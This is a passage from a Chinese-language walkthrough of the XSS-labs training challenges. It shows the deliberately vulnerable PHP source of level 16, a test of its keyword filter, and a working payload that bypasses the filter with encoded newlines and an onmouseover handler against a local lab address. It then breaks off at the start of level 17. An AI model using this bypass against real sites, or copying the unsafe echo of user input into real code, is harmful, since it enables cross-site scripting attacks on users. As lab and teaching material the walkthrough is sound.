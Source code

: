 ![image-20240820141255535](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820141255535.png)

### 源代码

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```

- 小写，替换**script，空格，/**


### 测试过滤

```js
<script " 'Oonn>
```

变成

```js
<center><&nbsp;&nbsp;"&nbsp;'oonn></center>
```

![image-20240820141438937](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820141438937.png)

- `script`和**空格**被替换为 `&nbsp;`
- 大写变成**小写**。

用**回车替换空格来将它们分开**

### 回车替换空格

回车：`%0a`， `%0d`

```js
http://192.168.70.10:8084/level16.php?keyword=<img%0asrc=xss%0donmouseover=alert('xss')>
```

![image-20240820141850492](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820141850492.png)

## level17 embed标签+事件

### 访问

http://192.168.70.10:8084/level17.php?arg01=a&arg02=b

![image-20240820141927690](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820141927690.png)
